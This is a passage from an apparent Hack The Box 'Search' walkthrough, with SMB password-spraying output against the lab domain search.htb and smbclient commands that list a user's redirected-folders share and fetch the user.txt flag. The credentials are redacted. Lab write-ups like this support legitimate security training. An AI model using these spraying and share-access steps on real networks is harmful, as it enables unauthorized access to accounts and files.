 ```shell
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Jeramiah.Fritz:{Redacted}  STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Abby.Gonzalez:{Redacted}  STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Joy.Costa:{Redacted}  STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Vincent.Sutton:{Redacted}  STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\web_svc:{Redacted} 
```

As you can see, only domain user `Sierra.Frye`'s password haven't changed yet, thus it's valid credentials.

**Again, we can enumerate the SMB `RedirectedFolders$` share with `Sierra.Frye`'s credentials:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|17:42:32(HKT)]
└> smbclient //search.htb/RedirectedFolders$ -U "Sierra.Frye"
Password for [WORKGROUP\Sierra.Frye]:
Try "help" to get a list of possible commands.
smb: \> cd sierra.frye\
smb: \sierra.frye\> dir
  .                                  Dc        0  Thu Nov 18 09:01:46 2021
  ..                                 Dc        0  Thu Nov 18 09:01:46 2021
  Desktop                           DRc        0  Thu Nov 18 09:08:00 2021
  Documents                         DRc        0  Fri Jul 31 22:42:19 2020
  Downloads                         DRc        0  Fri Jul 31 22:45:36 2020
  user.txt                           Ac       33  Thu Nov 18 08:55:27 2021

		3246079 blocks of size 4096. 619588 blocks available
```

**Found `user.txt`! Let's `get` it:**
```shell
smb: \sierra.frye\> get user.txt 
[...]
```

**user.txt:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|17:39:04(HKT)]
└> cat user.txt  
{Redacted}
```
